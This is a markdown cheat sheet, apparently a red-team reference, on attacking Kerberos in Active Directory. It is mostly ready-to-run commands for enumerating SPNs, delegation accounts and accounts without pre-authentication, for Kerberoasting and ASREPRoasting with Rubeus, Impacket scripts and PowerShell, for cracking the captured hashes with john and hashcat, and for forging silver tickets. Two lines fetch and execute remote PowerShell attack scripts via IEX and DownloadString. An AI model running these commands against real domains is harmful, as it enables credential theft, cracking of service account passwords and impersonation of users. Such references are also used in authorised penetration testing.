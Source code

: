 # Kerberos Info Gathering
## Query SPNs
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   
Note: setspn command generates alerts from MDI!   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Ticket
Get krb ticket for user with known password (e.g. via socks proxy):   
`.\Rubeus.exe asktgt /user:jdoe /password:<CUT> /domain:lab.local /dc:10.0.0.4 /ptt`

# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`   

Using native PowerShell:
```powershell
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/websrv.domain.local"  
```
Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/mikkorantanen.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.
